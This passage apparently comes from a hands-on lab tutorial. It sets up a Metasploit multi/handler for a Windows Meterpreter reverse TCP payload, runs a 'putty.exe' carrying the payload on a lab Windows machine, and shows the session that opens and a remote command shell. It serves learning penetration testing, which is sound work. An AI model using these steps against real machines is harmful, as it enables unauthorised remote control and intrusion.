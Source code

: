 ```
Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.8.147    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

#### Run this exploit

`exploit`

```
[*] Started reverse TCP handler on 192.168.8.147:4444
```

Now simply wait for connections…

#### Run “putty.exe”

Go back to the Windows machine and run the “putty.exe” command.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6d062e95-9735-4ce7-a36c-caee675b8d90/Untitled.png)

#### Back to Metasploit

Now look at your Metasploit window… looks like we have a connection.

```
[*] Started reverse TCP handler on 192.168.8.147:4444 
[*] Sending stage (175686 bytes) to 192.168.8.130
[*] Meterpreter session 1 opened (192.168.8.147:4444 -> 192.168.8.130:49211) at 2023-03-29 14:24:25 -0400

meterpreter >
```

#### Interact with meterpreter

`shell`

```
meterpreter > shell
Process 3372 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\John Doe\Desktop>
```
